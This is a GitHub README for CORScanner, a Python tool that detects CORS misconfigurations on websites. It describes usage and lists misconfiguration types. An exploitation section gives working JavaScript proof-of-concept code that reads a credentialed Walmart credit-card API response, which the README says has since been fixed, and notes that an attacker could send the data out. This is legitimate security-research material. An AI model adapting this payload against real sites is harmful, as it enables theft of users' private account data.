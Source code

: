 ## About CORScanner 

CORScanner is a python tool designed to discover CORS misconfigurations vulnerabilities of websites. It helps website administrators and penetration testers to check whether the domains/urls they are targeting have insecure CORS policies. 

### Features
* **Fast**. It uses [gevent](https://github.com/gevent/gevent) for concurrency, which is much faster than Python threads for network scanning.
* **Comprehensive**. It covers all [the common types of CORS misconfigurations](#misconfiguration-types) we know.
* **Flexible**. It supports various self-define features (e.g. file output), which is helpful for large-scale scanning.

Two useful references for understanding CORS systematically: 
* USENIX security 18 paper: [We Still Don’t Have Secure Cross-Domain Requests: an Empirical Study of CORS](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)
* 中文详解：[绕过浏览器SOP，跨站窃取信息：CORS配置安全漏洞报告及最佳部署实践](https://www.jianjunchen.com/post/cors%E5%AE%89%E5%85%A8%E9%83%A8%E7%BD%B2%E6%9C%80%E4%BD%B3%E5%AE%9E%E8%B7%B5/)

## Screenshots

![CORScanner](images/screenshot.png "CORScanner in action")

## Installation

- Download this tool
```
git clone https://github.com/chenjj/CORScanner.git
```

- Install dependencies
```
sudo pip install -r requirements.txt
```

CORScanner depends on the `requests`, `gevent`, `tld`, `colorama` and `argparse` python modules.

## Recommended Python Version:

* The recommended version for Python 2 is **2.7.x**

## Usage

Short Form    | Long Form     | Description
------------- | ------------- |-------------
-u            | --url         | URL/domain to check it's CORS policy
-d            | --headers     | Add headers to the request
-i            | --input       | URL/domain list file to check their CORS policy
-t            | --threads     | Number of threads to use for CORS scan
-o            | --output      | Save the results to text file
-v            | --verbose     | Enable the verbose mode and display results in realtime
-h            | --help        | show the help message and exit

### Examples

* To check CORS misconfigurations of specific domain:

``python cors_scan.py -u example.com``

* To check CORS misconfigurations of specific URL:

``python cors_scan.py -u http://example.com/restapi``

* To check CORS misconfiguration with specific headers:

``python cors_scan.py -u example.com -d "Cookie: test"``

* To check CORS misconfigurations of multiple domains/URLs:

``python cors_scan.py -i top_100_domains.txt -t 100``

* To list all the basic options and switches use -h switch:

```python cors_scan.py -h```

## Misconfiguration types
This tool covers the following misconfiguration types:

Misconfiguration type    | Description
------------------------ | --------------------------
Reflect_any_origin       | Blindly reflect the Origin header value in `Access-Control-Allow-Origin headers` in responses, which means any website can read its secrets by sending cross-orign requests.
Prefix_match             | `wwww.example.com` trusts `example.com.evil.com`, which is an attacker's domain.
Suffix_match             | `wwww.example.com` trusts `evilexample.com`, which could be registered by an attacker.
Not_escape_dot           | `wwww.example.com` trusts `wwwaexample.com`, which could be registered by an attacker.
Substring match          | `wwww.example.com` trusts `example.co`, which could be registered by an attacker.
Trust_null               | `wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts
HTTPS_trust_HTTP         | Risky trust dependency, a MITM attacker may steal HTTPS site secrets
Trust_any_subdomain      | Risky trust dependency, a subdomain XSS may steal its secrets

 Welcome to contribute more.

## Exploitation examples
Here is an example about how to exploit "Reflect_any_origin" misconfiguration on Walmart.com(fixed). Secrets on walmart.com can be read by any malicious website(in the demo we use localhost as the malicious website).

Walmart.com video on Youtube:

[![Walmart_CORS_misconfiguration_exploitation](https://github.com/chenjj/CORScanner/raw/master/images/walmart.png)](http://www.youtube.com/watch?v=3abaevsSHXY)

Here is the exploitation code:
```javascript
<script>
    // Send a cross origin request to the walmart.com server, when a victim visits the page.
    var req = new XMLHttpRequest();
    req.open('GET',"https://www.walmart.com/account/electrode/account/api/customer/:CID/credit-card",true);
    req.onload = stealData;
    req.withCredentials = true;
    req.send();

    function stealData(){
        //reading response is allowed because of the CORS misconfiguration.
        var data= JSON.stringify(JSON.parse(this.responseText),null,2);

        //display the data on the page. A real attacker can send the data to his server.
        output(data);
    }

    function output(inp) {
        document.body.appendChild(document.createElement('pre')).innerHTML = inp;
    }
</script>
```

If you have understood how the demo works, you can read Section 5 and Section 6 of the [CORS paper](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/) and know how to exploit other misconfigurations.

## License

CORScanner is licensed under the MIT license. take a look at the [LICENSE](./LICENSE) for more information.


## Credits
This work is inspired by the following excellent researches:

* James Kettle, “Exploiting CORS misconfigurations for Bitcoins and bounties”, AppSecUSA 2016*
* Evan Johnson, “Misconfigured CORS and why web appsec is not getting easier”,  AppSecUSA 2016*
* Von Jens Müller, "CORS misconfigurations on a large scale", [CORStest](https://github.com/RUB-NDS/CORStest)*

## Version
**Current version is 1.0**
